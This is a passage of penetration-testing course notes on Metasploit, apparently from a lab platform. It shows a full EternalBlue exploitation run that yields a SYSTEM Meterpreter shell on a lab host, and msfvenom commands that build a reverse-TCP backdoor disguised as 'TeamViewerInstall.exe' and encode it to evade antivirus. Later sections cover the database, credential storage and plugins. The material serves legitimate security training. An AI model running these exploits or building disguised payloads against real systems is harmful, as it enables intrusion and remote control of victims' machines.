15 payload/windows/x64/meterpreter/reverse_tcp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
16 payload/windows/x64/meterpreter/reverse_tcp_rc4 normal No Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
17 payload/windows/x64/meterpreter/reverse_tcp_uuid normal No Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15
payload => windows/x64/meterpreter/reverse_tcp
Now, use set payload <no.>, and take a look at the options:
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
Module options (exploit/windows/smb/ms17_010_eternalblue):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 445 yes The target port (TCP)
SMBDomain . no (Optional) The Windows domain to use for authentication
SMBPass no (Optional) The password for the specified username
SMBUser no (Optional) The username to authenticate as
VERIFY_ARCH true yes Check if remote architecture matches exploit Target.
VERIFY_TARGET true yes Check if remote OS matches exploit Target.
Payload options (windows/x64/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows 7 and Server 2008 R2 (x64) All Service Packs
After selecting a payload, you will have more options available to you.
Using Payloads
For the exploit part (target) you will have to set:
- RHOSTS
- RPORT
For the payload part (your attacking machine) you will have to set:
- LHOST
- LPORT
... leads to:
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.14.15:4444
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
Encoders
... assist with making payloads compatible with different processor architectures while at the same time helping with av evasion.
These architectures include:
- x64
- x86
- sparc
- ppc
- mips
Selecting an Encoder
Suppose you want to select an Encoder for an existing payload. Then, you can use the show encoders command within the msfconsole to see which encoders are available for your current exploit module and payload combination.
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
Compatible Encoders
===================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 generic/eicar manual No The EICAR Encoder
1 generic/none manual No The "none" Encoder
2 x64/xor manual No XOR Encoder
3 x64/xor_dynamic manual No Dynamic key XOR Encoder
4 x64/zutto_dekiru manual No Zutto Dekiru
Take the above example just as that. If you were to encode an executable payload only once with SGN, it would most likely be detected by most avs. Picking up msfvenom, the subscript of the framework that deals with payloads and encoding schemes, you have the following input.
d41y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: TeamViewerInstall.exe
This will generate a payload with the exe format, called TeamVieverInstall.exe, which is meant to work on x86 architecture processors for the Windows platform, with a hidden Meterpreter reverse_tcp shell payload, encoded once with the Shikata Ga Nai scheme.
One better option would be to try running it through multiple iterations of the same encoding scheme:
d41y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai succeeded with size 503 (iteration=5)
x86/shikata_ga_nai succeeded with size 530 (iteration=6)
x86/shikata_ga_nai succeeded with size 557 (iteration=7)
x86/shikata_ga_nai succeeded with size 584 (iteration=8)
x86/shikata_ga_nai succeeded with size 611 (iteration=9)
x86/shikata_ga_nai chosen with final size 611
Payload size: 611 bytes
Final size of exe file: 73802 bytes
Error: Permission denied @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
There is a high number of products that still detect the payload. Alternatively, Metasploit offers a tool called msf-virustotal that you can use with an API key to analyze your payloads.
d41y@htb[/htb]$ msf-virustotal -k <API key> -f TeamViewerInstall.exe
[*] Using API key: <API key>
[*] Please wait while I upload TeamViewerInstall.exe...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash : 4f54cc46e2f55be168cc6114b74a3130
[*] Sample SHA1 hash : 53fcb4ed92cf40247782de41877b178ef2a9c5a9
[*] Sample SHA256 hash : 66894cbecf2d9a31220ef811a2ba65c06fdfecddbc729d006fdab10e43368da8
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1651750343
[*] Requesting the report...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Analysis Report: TeamViewerInstall.exe (51 / 68): 66894cbecf2d9a31220ef811a2ba65c06fdfecddbc729d006fdab10e43368da8
==================================================================================================================
Antivirus Detected Version Result Update
--------- -------- ------- ------ ------
ALYac true 1.1.3.1 Trojan.CryptZ.Gen 20220505
APEX true 6.288 Malicious 20220504
AVG true 21.1.5827.0 Win32:SwPatch [Wrm] 20220505
Acronis true 1.2.0.108 suspicious 20220426
Ad-Aware true 3.0.21.193 Trojan.CryptZ.Gen 20220505
AhnLab-V3 true 3.21.3.10230 Trojan/Win32.Shell.R1283 20220505
Alibaba false 0.3.0.5 20190527
Antiy-AVL false 3.0 20220505
Arcabit true 1.0.0.889 Trojan.CryptZ.Gen 20220505
Avast true 21.1.5827.0 Win32:SwPatch [Wrm] 20220505
Avira true 8.3.3.14 TR/Patched.Gen2 20220505
Baidu false 1.0.0.2 20190318
BitDefender true 7.2 Trojan.CryptZ.Gen 20220505
BitDefenderTheta true 7.2.37796.0 Gen:NN.ZexaF.34638.eq1@aC@Q!ici 20220428
Bkav true 1.3.0.9899 W32.FamVT.RorenNHc.Trojan 20220505
CAT-QuickHeal true 14.00 Trojan.Swrort.A 20220505
CMC false 2.10.2019.1 20211026
ClamAV true 0.105.0.0 Win.Trojan.MSShellcode-6360728-0 20220505
Comodo true 34592 TrojWare.Win32.Rozena.A@4jwdqr 20220505
CrowdStrike true 1.0 win/malicious_confidence_100% (D) 20220418
Cylance true 2.3.1.101 Unsafe 20220505
Cynet true 4.0.0.27 Malicious (score: 100) 20220505
Cyren true 6.5.1.2 W32/Swrort.A.gen!Eldorado 20220505
DrWeb true 7.0.56.4040 Trojan.Swrort.1 20220505
ESET-NOD32 true 25218 a variant of Win32/Rozena.AA 20220505
Elastic true 4.0.36 malicious (high confidence) 20220503
Emsisoft true 2021.5.0.7597 Trojan.CryptZ.Gen (B) 20220505
F-Secure false 18.10.978-beta,1651672875v,1651675347h,1651717942c,1650632236t 20220505
FireEye true 35.24.1.0 Generic.mg.4f54cc46e2f55be1 20220505
Fortinet true 6.2.142.0 MalwThreat!0971IV 20220505
GData true A:25.32960B:27.27244 Trojan.CryptZ.Gen 20220505
Gridinsoft true 1.0.77.174 Trojan.Win32.Swrort.zv!s2 20220505
Ikarus true 6.0.24.0 Trojan.Win32.Swrort 20220505
Jiangmin false 16.0.100 20220504
K7AntiVirus true 12.10.42191 Trojan ( 001172b51 ) 20220505
K7GW true 12.10.42191 Trojan ( 001172b51 ) 20220505
Kaspersky true 21.0.1.45 HEUR:Trojan.Win32.Generic 20220505
Kingsoft false 2017.9.26.565 20220505
Lionic false 7.5 20220505
MAX true 2019.9.16.1 malware (ai score=89) 20220505
Malwarebytes true 4.2.2.27 Trojan.Rozena 20220505
MaxSecure true 1.0.0.1 Trojan.Malware.300983.susgen 20220505
McAfee true 6.0.6.653 Swrort.i 20220505
McAfee-GW-Edition true v2019.1.2+3728 BehavesLike.Win32.Swrort.lh 20220505
MicroWorld-eScan true 14.0.409.0 Trojan.CryptZ.Gen 20220505
Microsoft true 1.1.19200.5 Trojan:Win32/Meterpreter.A 20220505
NANO-Antivirus true 1.0.146.25588 Virus.Win32.Gen-Crypt.ccnc 20220505
Paloalto false 0.9.0.1003 20220505
Panda false 4.6.4.2 20220504
Rising true 25.0.0.27 Trojan.Generic@AI.100 (RDMK:cmRtazqDtX58xtB5RYP2bMLR5Bv1) 20220505
SUPERAntiSpyware true 5.6.0.1032 Trojan.Backdoor-Shell 20220430
Sangfor true 2.14.0.0 Trojan.Win32.Save.a 20220415
SentinelOne true 22.2.1.2 Static AI - Malicious PE 20220330
Sophos true 1.4.1.0 ML/PE-A + Mal/EncPk-ACE 20220505
Symantec true 1.17.0.0 Packed.Generic.347 20220505
TACHYON false 2022-05-05.02 20220505
Tencent true 1.0.0.1 Trojan.Win32.Cryptz.za 20220505
TrendMicro true 11.0.0.1006 BKDR_SWRORT.SM 20220505
TrendMicro-HouseCall true 10.0.0.1040 BKDR_SWRORT.SM 20220505
VBA32 false 5.0.0 20220505
ViRobot true 2014.3.20.0 Trojan.Win32.Elzob.Gen 20220504
VirIT false 9.5.188 20220504
Webroot false 1.0.0.403 20220505
Yandex true 5.5.2.24 Trojan.Rosena.Gen.1 20220428
Zillya false 2.0.0.4625 20220505
ZoneAlarm true 1.0 HEUR:Trojan.Win32.Generic 20220505
Zoner false 2.2.2.0 20220504
tehtris false v0.1.2 20220505
Databases
... are used to keep track of your results.
Setting it up
PostgreSQL Status
d41y@htb[/htb]$ sudo service postgresql status
● postgresql.service - PostgreSQL RDBMS
Loaded: loaded (/lib/systemd/system/postgresql.service; disabled; vendor preset: disabled)
Active: active (exited) since Fri 2022-05-06 14:51:30 BST; 3min 51s ago
Process: 2147 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
Main PID: 2147 (code=exited, status=0/SUCCESS)
CPU: 1ms
May 06 14:51:30 pwnbox-base systemd[1]: Starting PostgreSQL RDBMS...
May 06 14:51:30 pwnbox-base systemd[1]: Finished PostgreSQL RDBMS.
Start PostgreSQL
d41y@htb[/htb]$ sudo systemctl start postgresql
MSF - Initiate a Database
d41y@htb[/htb]$ sudo msfdb init
[i] Database already started
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
rake aborted!
NoMethodError: undefined method `without' for #<Bundler::Settings:0x000055dddcf8cba8>
Did you mean? with_options
<SNIP>
Sometimes an error can occur if Metasploit is not up to date. First, often it helps to update Metasploit (apt update) to solve this problem.
d41y@htb[/htb]$ sudo msfdb init
[i] Database already started
[i] The database appears to be already configured, skipping initialization
If the initialization is skipped and Metasploit tells you that the database is already configured, you can recheck the status of the database:
d41y@htb[/htb]$ sudo msfdb status
● postgresql.service - PostgreSQL RDBMS
Loaded: loaded (/lib/systemd/system/postgresql.service; disabled; vendor preset: disabled)
Active: active (exited) since Mon 2022-05-09 15:19:57 BST; 35min ago
Process: 2476 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
Main PID: 2476 (code=exited, status=0/SUCCESS)
CPU: 1ms
May 09 15:19:57 pwnbox-base systemd[1]: Starting PostgreSQL RDBMS...
May 09 15:19:57 pwnbox-base systemd[1]: Finished PostgreSQL RDBMS.
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
postgres 2458 postgres 5u IPv6 34336 0t0 TCP localhost:5432 (LISTEN)
postgres 2458 postgres 6u IPv4 34337 0t0 TCP localhost:5432 (LISTEN)
UID PID PPID C STIME TTY STAT TIME CMD
postgres 2458 1 0 15:19 ? Ss 0:00 /usr/lib/postgresql/13/bin/postgres -D /var/lib/postgresql/13/main -c con
[+] Detected configuration file (/usr/share/metasploit-framework/config/database.yml)
If this error does not appear, which often happens after a fresh installation of Metasploit, then you will see the following when initializing the database:
d41y@htb[/htb]$ sudo msfdb init
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
MSF - Connect to the Initiated Database
d41y@htb[/htb]$ sudo msfdb run
[i] Database already started
. .
.
dBBBBBBb dBBBP dBBBBBBP dBBBBBb . o
' dB' BBP
dB'dB'dB' dBBP dBP dBP BB
dB'dB'dB' dBP dBP dBP BB
dB'dB'dB' dBBBBP dBP dBBBBBBB
dBBBBBP dBBBBBb dBP dBBBBP dBP dBBBBBBP
. . dB' dBP dB'.BP
| dBP dBBBB' dBP dB'.BP dBP dBP
--o-- dBP dBP dBP dB'.BP dBP dBP
| dBBBBP dBP dBBBBP dBBBBP dBP dBP
.
.
o To boldly go where no
shell has gone before
=[ metasploit v6.1.39-dev ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post ]
+ -- --=[ 616 payloads - 45 encoders - 11 nops ]
+ -- --=[ 9 evasion ]
msf6>
MSF - Reinitiate the Database
If, however, you already have the database configured and are not able to change the password to the MSF username, proceed with these commands:
d41y@htb[/htb]$ msfdb reinit
d41y@htb[/htb]$ cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
d41y@htb[/htb]$ sudo service postgresql restart
d41y@htb[/htb]$ msfconsole -q
msf6 > db_status
[*] Connected to msf. Connection type: PostgreSQL.
MSF - Database Options
msf6 > help database
Database Backend Commands
=========================
Command Description
------- -----------
db_connect Connect to an existing database
db_disconnect Disconnect from the current database instance
db_export Export a file containing the contents of the database
db_import Import a scan result file (filetype will be auto-detected)
db_nmap Executes nmap and records the output automatically
db_rebuild_cache Rebuilds the database-stored module cache
db_status Show the current database status
hosts List all hosts in the database
loot List all loot in the database
notes List all notes in the database
services List all services in the database
vulns List all vulnerabilities in the database
workspace Switch between database workspaces
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
Using the Database
These databases can be exported and imported. This is especially useful when you have extensive lists of hosts, loot, notes, and stored vulns for these hosts. After confirming that the database is successfully connected, you can organize your workspace.
Workspaces
Like a folder in a project. You can segregate the different scan results, hosts, and extracted information by IP, subnet, network, or domain.
To view the current workspace list, use the workspace command. Adding a -a or -d switch after the command, followed by the workspace's name, will either add or delete that workspace to the database.
msf6 > workspace
* default
Notice that the default workspace is named "default" and is currently in use accoding to the *.
msf6 > workspace -a Target_1
[*] Added workspace: Target_1
[*] Workspace: Target_1
msf6 > workspace Target_1
[*] Workspace: Target_1
msf6 > workspace
default
* Target_1
To see what else you can do with workspaces, you can use:
msf6 > workspace -h
Usage:
workspace List workspaces
workspace -v List workspaces verbosely
workspace [name] Switch workspace
workspace -a [name] ... Add workspace(s)
workspace -d [name] ... Delete workspace(s)
workspace -D Delete all workspaces
workspace -r Rename workspace
workspace -h Show this help information
Importing Scan Results
Stored nmap Scan
d41y@htb[/htb]$ cat Target.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-17 20:54 UTC
Nmap scan report for 10.10.10.40
Host is up (0.017s latency).
Not shown: 991 closed ports
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49156/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.81 seconds
Importing Scan Results
msf6 > db_import Target.xml
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.10.9'
[*] Importing host 10.10.10.40
[*] Successfully imported ~/Target.xml
msf6 > hosts
Hosts
=====
address mac name os_name os_flavor os_sp purpose info comments
------- --- ---- ------- --------- ----- ------- ---- --------
10.10.10.40 Unknown device
msf6 > services
Services
========
host port proto name state info
---- ---- ----- ---- ----- ----
10.10.10.40 135 tcp msrpc open Microsoft Windows RPC
10.10.10.40 139 tcp netbios-ssn open Microsoft Windows netbios-ssn
10.10.10.40 445 tcp microsoft-ds open Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
10.10.10.40 49152 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49153 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49154 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49155 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49156 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49157 tcp msrpc open Microsoft Windows RPC
Using nmap inside of MSFconsole
msf6 > db_nmap -sV -sS 10.10.10.8
[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-17 21:04 UTC
[*] Nmap: Nmap scan report for 10.10.10.8
[*] Nmap: Host is up (0.016s latency).
[*] Nmap: Not shown: 999 filtered ports
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 80/TCP open http HttpFileServer httpd 2.3
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.12 seconds
msf6 > hosts
Hosts
=====
address mac name os_name os_flavor os_sp purpose info comments
------- --- ---- ------- --------- ----- ------- ---- --------
10.10.10.8 Unknown device
10.10.10.40 Unknown device
msf6 > services
Services
========
host port proto name state info
---- ---- ----- ---- ----- ----
10.10.10.8 80 tcp http open HttpFileServer httpd 2.3
10.10.10.40 135 tcp msrpc open Microsoft Windows RPC
10.10.10.40 139 tcp netbios-ssn open Microsoft Windows netbios-ssn
10.10.10.40 445 tcp microsoft-ds open Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
10.10.10.40 49152 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49153 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49154 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49155 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49156 tcp msrpc open Microsoft Windows RPC
10.10.10.40 49157 tcp msrpc open Microsoft Windows RPC
Data Backup
MSF - DB Export
msf6 > db_export -h
Usage:
db_export -f <format> [filename]
Format can be one of: xml, pwdump
[-] No output file was specified
msf6 > db_export -f xml backup.xml
[*] Starting export of workspace default to backup.xml [ xml ]...
[*] Finished export of workspace default to backup.xml [ xml ]...
Hosts
The hosts command displays a database table automatically populated with the host addresses, hostnames, and other information you find about these during your scans and interactions.
Stored Hosts
msf6 > hosts -h
Usage: hosts [ options ] [addr1 addr2 ...]
OPTIONS:
-a,--add Add the hosts instead of searching
-d,--delete Delete the hosts instead of searching
-c <col1,col2> Only show the given columns (see list below)
-C <col1,col2> Only show the given columns until the next restart (see list below)
-h,--help Show this help information
-u,--up Only show hosts which are up
-o <file> Send output to a file in CSV format
-O <column> Order rows by specified column number
-R,--rhosts Set RHOSTS from the results of the search
-S,--search Search string to filter by
-i,--info Change the info of a host
-n,--name Change the name of a host
-m,--comment Change the comment of a host
-t,--tag Add or specify a tag to a range of hosts
Available columns: address, arch, comm, comments, created_at, cred_count, detected_arch, exploit_attempt_count, host_detail_count, info, mac, name, note_count, os_family, os_flavor, os_lang, os_name, os_sp, purpose, scope, service_count, state, updated_at, virtual_host, vuln_count, tags
Services
The services command functions the same way as the previous one. It contains a table with descriptions and information on services discovered during scans or interactions.
MSF - Stored Services of Hosts
msf6 > services -h
Usage: services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]
-a,--add Add the services instead of searching
-d,--delete Delete the services instead of searching
-c <col1,col2> Only show the given columns
-h,--help Show this help information
-s <name> Name of the service to add
-p <port> Search for a list of ports
-r <protocol> Protocol type of the service being added [tcp|udp]
-u,--up Only show services which are up
-o <file> Send output to a file in csv format
-O <column> Order rows by specified column number
-R,--rhosts Set RHOSTS from the results of the search
-S,--search Search string to filter by
-U,--update Update data for existing service
Available columns: created_at, info, name, port, proto, state, updated_at
Credentials
The creds command allows you to visualize the credentials gathered during your interaction with the target host.
MSF - Stored Credentials
msf6 > creds -h
With no sub-command, list credentials. If an address range is
given, show only credentials with logins on hosts within that
range.
Usage - Listing credentials:
creds [filter options] [address range]
Usage - Adding credentials:
creds add uses the following named parameters.
user : Public, usually a username
password : Private, private_type Password.
ntlm : Private, private_type NTLM Hash.
Postgres : Private, private_type Postgres MD5
ssh-key : Private, private_type SSH key, must be a file path.
hash : Private, private_type Nonreplayable hash
jtr : Private, private_type John the Ripper hash type.
realm : Realm,
realm-type: Realm, realm_type (domain db2db sid pgdb rsync wildcard), defaults to domain.
Examples: Adding
# Add a user, password and realm
creds add user:admin password:notpassword realm:workgroup
# Add a user and password
creds add user:guest password:'guest password'
# Add a password
creds add password:'password without username'
# Add a user with an NTLMHash
creds add user:admin ntlm:E2FC15074BF7751DD408E6B105741864:A1074A69B1BDE45403AB680504BBDD1A
# Add a NTLMHash
creds add ntlm:E2FC15074BF7751DD408E6B105741864:A1074A69B1BDE45403AB680504BBDD1A
# Add a Postgres MD5
creds add user:postgres postgres:md5be86a79bf2043622d58d5453c47d4860
# Add a user with an SSH key
creds add user:sshadmin ssh-key:/path/to/id_rsa
# Add a user and a NonReplayableHash
creds add user:other hash:d19c32489b870735b5f587d76b934283 jtr:md5
# Add a NonReplayableHash
creds add hash:d19c32489b870735b5f587d76b934283
General options
-h,--help Show this help information
-o <file> Send output to a file in csv/jtr (john the ripper) format.
If the file name ends in '.jtr', that format will be used.
If file name ends in '.hcat', the hashcat format will be used.
CSV by default.
-d,--delete Delete one or more credentials
Filter options for listing
-P,--password <text> List passwords that match this text
-p,--port <portspec> List creds with logins on services matching this port spec
-s <svc names> List creds matching comma-separated service names
-u,--user <text> List users that match this text
-t,--type <type> List creds that match the following types: password,ntlm,hash
-O,--origins <IP> List creds that match these origins
-R,--rhosts Set RHOSTS from the results of the search
-v,--verbose Don't truncate long password hashes
Examples, John the Ripper hash types:
Operating Systems (starts with)
Blowfish ($2a$) : bf
BSDi (_) : bsdi
DES : des,crypt
MD5 ($1$) : md5
SHA256 ($5$) : sha256,crypt
SHA512 ($6$) : sha512,crypt
Databases
MSSQL : mssql
MSSQL 2005 : mssql05
MSSQL 2012/2014 : mssql12
MySQL < 4.1 : mysql
MySQL >= 4.1 : mysql-sha1
Oracle : des,oracle
Oracle 11 : raw-sha1,oracle11
Oracle 11 (H type): dynamic_1506
Oracle 12c : oracle12c
Postgres : postgres,raw-md5
Examples, listing:
creds # Default, returns all credentials
creds 1.2.3.4/24 # Return credentials with logins in this range
creds -O 1.2.3.4/24 # Return credentials with origins in this range
creds -p 22-25,445 # nmap port specification
creds -s ssh,smb # All creds associated with a login on SSH or SMB services
creds -t NTLM # All NTLM creds
creds -j md5 # All John the Ripper hash type MD5 creds
Example, deleting:
# Delete all SMB credentials
creds -d -s smb
Loot
The loot command works in conjuction with the command above to offer you an at-a-glance list of owned services and users.
MSF - Stored Loot
msf6 > loot -h
Usage: loot [options]
Info: loot [-h] [addr1 addr2 ...] [-t <type1,type2>]
Add: loot -f [fname] -i [info] -a [addr1 addr2 ...] -t [type]
Del: loot -d [addr1 addr2 ...]
-a,--add Add loot to the list of addresses, instead of listing
-d,--delete Delete *all* loot matching host and type
-f,--file File with contents of the loot to add
-i,--info Info of the loot to add
-t <type1,type2> Search for a list of types
-h,--help Show this help information
-S,--search Search string to filter by
Plugins
... are readily available software that has already been released by third parties and have given approval to the creators of Metasploit to integrate their software inside the framework.
Using Plugins
To start using a plugin, you will need to ensure it is installed in the correct directory on your machine. Navigating to /usr/share/metasploit-framework/plugins, which is the default directory for every new installation of msfconsole, should show you which plugins you have to your availability.
If the plugin is found there, you can fire it up inside msfconsole and will be met with the greeting output for that specific plugin, signaling that it was successfully loaded in and is now ready to use.
MSF - Load Nessus
msf6 > load nessus
[*] Nessus Bridge for Metasploit
[*] Type nessus_help for a command listing
[*] Successfully loaded Plugin: Nessus
msf6 > nessus_help
Command Help Text
------- ---------
Generic Commands
----------------- -----------------
nessus_connect Connect to a Nessus server
nessus_logout Logout from the Nessus server
nessus_login Login into the connected Nessus server with a different username and
<SNIP>
nessus_user_del Delete a Nessus User
nessus_user_passwd Change Nessus Users Password
Policy Commands
----------------- -----------------
nessus_policy_list List all polciies
nessus_policy_del Delete a policy
Installing new Plugins
To install new custom plugins not included in new updates of the distro, you can take the .rb file provided on the maker's page and replace it in the folder at /usr/share/metasploit-framework/plugins with the proper permissions.
Downloading MSF Plugins
d41y@htb[/htb]$ git clone https://github.com/darkoperator/Metasploit-Plugins
d41y@htb[/htb]$ ls Metasploit-Plugins
aggregator.rb ips_filter.rb pcap_log.rb sqlmap.rb
alias.rb komand.rb pentest.rb thread.rb
auto_add_route.rb lab.rb request.rb token_adduser.rb
beholder.rb libnotify.rb rssfeed.rb token_hunter.rb
db_credcollect.rb msfd.rb sample.rb twitt.rb
db_tracker.rb msgrpc.rb session_notifier.rb wiki.rb
event_tester.rb nessus.rb session_tagger.rb wmap.rb
ffautoregen.rb nexpose.rb socket_logger.rb
growl.rb openvas.rb sounds.rb
MSF - Copying Plugin to MSF
d41y@htb[/htb]$ sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
Afterward, launch msfconsole and check the plugin's installation by running the load command. After the plugin has been loaded, the help menu at the msfconsole is automatically extended by additional functions.
MSF - Load Plugin
d41y@htb[/htb]$ msfconsole -q
msf6 > load pentest
___ _ _ ___ _ _
| _ \___ _ _| |_ ___ __| |_ | _ \ |_ _ __ _(_)_ _
| _/ -_) ' \ _/ -_|_-< _| | _/ | || / _` | | ' \
|_| \___|_||_\__\___/__/\__| |_| |_|\_,_\__, |_|_||_|
|___/
Version 1.6
Pentest Plugin loaded.
by Carlos Perez (carlos_perez[at]darkoperator.com)
[*] Successfully loaded plugin: pentest
msf6 > help
Tradecraft Commands
===================
Command Description
------- -----------
check_footprint Checks the possible footprint of a post module on a target system.
auto_exploit Commands
=====================
Command Description
------- -----------
show_client_side Show matched client side exploits from data imported from vuln scanners.
vuln_exploit Runs exploits based on data imported from vuln scanners.
Discovery Commands
==================
Command Description
------- -----------
discover_db Run discovery modules against current hosts in the database.
network_discover Performs a port-scan and enumeration of services found for non pivot networks.
pivot_network_discover Performs enumeration of networks available to a specified Meterpreter session.
show_session_networks Enumerate the networks one could pivot thru Meterpreter in the active sessions.
Project Commands
================
Command Description
------- -----------
project Command for managing projects.
Postauto Commands
=================
Command Description
------- -----------
app_creds Run application password collection modules against specified sessions.
get_lhost List local IP addresses that can be used for LHOST.
multi_cmd Run shell command against several sessions
